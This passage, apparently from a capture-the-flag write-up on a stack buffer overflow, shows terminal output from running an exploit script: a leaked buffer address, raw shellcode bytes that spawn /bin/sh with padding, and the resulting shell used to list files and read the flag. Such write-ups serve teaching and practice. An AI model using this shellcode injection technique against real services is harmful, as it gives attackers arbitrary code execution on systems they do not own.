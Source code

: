 And then we win:

{language=python}
~~~~~~~~
$ python ./exploit.py
<<< RECV Buff: 0xffb7a938
<<< RECV
Got buffer addresss: 0xffb7a938
SEND >>> 1�Ph//shh/bin����¸���-���̀1�@̀���������������������������������������������������������������������������������������������1ZGUP@AAAAAAAAAAAA8���
Got 1�Ph//shh/bin����¸��-��̀1�@̀���������������������������������������������������������������������������������������������1ZGUP@AAAAAAAAAAAA8��
ls
flag
precision_a8f6f0590c177948fe06c76a1831e650
cat flag
flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}
~~~~~~~~
